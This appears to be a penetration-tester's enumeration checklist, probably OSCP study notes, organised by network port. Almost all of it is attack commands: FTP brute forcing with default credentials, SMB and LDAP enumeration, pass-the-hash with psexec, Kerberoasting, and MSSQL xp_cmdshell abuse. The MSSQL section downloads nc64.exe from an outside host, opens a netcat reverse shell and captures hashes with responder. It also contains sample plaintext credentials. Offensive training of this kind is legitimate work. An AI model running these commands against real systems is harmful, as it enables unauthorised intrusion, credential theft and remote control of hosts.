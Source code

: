 ## Enumeration Checklist

# set your variables

`target=`

`user=`

`pass=`

`ip=`

`domain=`

# 21 FTP

`hydra -l <user list> -P <password list> ftp://$ip`

common creds patterns

admin/admin
root/root
password/password
username/username


# 53 DNS

`dig @$ip version.bind CHAOS TXT`
`dig axfr @$ip $domain`     
`dnsenum $domain`

# 135 RCP

`rpcclient -U '' -N $ip`
`rpcclient -U '$user%$pass' $ip` 

`> enumdomusers      #check the users on the DC`
`> queryuser <username>  #query the details of the user`
`> querydispinfo`

`nmblookup -A $ip`

# 445 SMB

<Without Pass>

`enum4linux -a $ip`

`impacket-lookupsid $domain/$user@$domain -no-pass`

`smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares`

`smbclient -N -L //[ip]`

`smbclient //[ip]/[share] -N   #Enumerate Files`


<With Pass>
	
`lookupsid.py  $domain$user:$pass@$domain`

`lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2     #This oneliner will create a file with all the domain users`

`psexec.py -hashes  :<ntlm hash>    $user@$ip`

`smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r`

`smbclient //$ip/C$ -U '$user%$pass' -c 'dir'`

`netexec smb [host/ip] -u [user] -p [pass] --shares`

`netexec smb [host/ip] -u guest -p '' --shares`

`smbclient //[ip]/[share] -U [username] [password]`

`netexec smb -u [user] -p [pass] -M spider_plus`

`smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth`

`manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]`


# 88 Kerberoas

`nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip`

`kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid`

`impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200`

`impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100`

`kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt`

`kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100`


# 389 LDAP

**Without Pass**

`ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam"`

`ldapsearch -x -H ldap://$ip -s base namingcontexts`

`impacket-lookupsid '$domain/guest'@$domain -no-pass`

**With Pass**

`lookupsid.py  $domain/$user:$pass@$domain`
`ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts`

`bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip`
`neo4j console'
> [!IMPORTANT]
>  #config file; /usr/share/neo4j/conf

`./Bloodhound  --no-sandbox`


# 1433 MSSQL

`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth`  > Windows login

`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login`

`SELECT @@version   #Current MSSQL Version`

`SELECT DB_NAME()   #Current Database`

`SELECT name FROM sys.databases;  #show DBs`	

`enum_db            #show DBs`

`select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables`

> cmd command	

`EXEC sp_configure 'show advanced options', 1;`<br>
`RECONFIGURE;`<br>
`EXEC sp_configure 'xp_cmdshell', 1;`<br>
`RECONFIGURE;`<br>

`EXEC xp_cmdshell ' whoami /priv '`

`xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell`

`xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"`

`xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"`
	
> hash capture

`xp_dirtree \\192.168.1.210\shared`

`responder -I tun0   #When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)`


`enum_impersonate'  > impersonate

`EXECUTE AS LOGIN = 'username to impersonate'  #impersonate`

`SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'  #impersonate`


**MSSQL Cheetsheet**

https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

`xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard`

# 5985 WINRM

`evil-winrm -i $ip -u $user -p $pass`
